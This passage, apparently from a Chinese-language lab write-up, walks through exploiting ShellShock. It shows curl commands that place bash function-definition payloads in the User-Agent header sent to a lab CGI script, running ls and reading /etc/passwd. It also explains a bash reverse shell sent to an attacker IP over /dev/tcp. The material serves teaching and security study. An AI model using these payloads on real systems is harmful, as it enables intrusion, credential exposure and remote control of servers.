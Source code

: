 在这里 bash 会检查环境变量的值，如果环境变量的值是以“() { ”开头的，bash 将会把”=”替换成空格，从而将环境变量的变为一个函数定义。

`-A` 选项可以用来设置请求的 User-Agent 字段。所以如果想要执行”`/bin/ls -l`”，可以构造

```
curl -A "() { :;}; echo ; /bin/ls -l" http://192.168.190.136/cgi-bin/myprog.cgi
```

![image-20220326104129947](ShellShock/image-20220326104129947.png)

若想打印/etc/passwd，可构建

```bash
curl -A "() { : ;}; echo ; /bin/cat /etc/passwd" http://192.168.190.136/cgi-bin/myprog.cgi
```

![image-20220326104923166](ShellShock/image-20220326104923166.png)

#### 尝试获取bash权限

> `/bin/bash` 命令表示通常在受损服务器上执行的命令。 此命令有以下几个部分：
>
> - `/bin/bash-i`：i 代表交互式，意思是 shell 必须是交互式的(必须提供 shell 提示)
> - `\>/dev/tcp/192.168.136.130/9090`：其作用是将 shell 的**输出**(stdout)重定向到 TCP 连接到 192.168.136.130(攻击机)的9090端口。 输出 stdout 用文件描述符编号 1 表示。
> - `0<&1`: 文件描述符 0 表示**标准输入**(stdin)。 这导致外壳的 stdin 从 tcp 连接中获得。
> - `2>&1`:文件描述符 2 表示**标准错误** stderr。 这导致错误输出被重定向到 TCP 连接

得到攻击机的IP地址

![image-20220326110344256](ShellShock/image-20220326110344256.png)
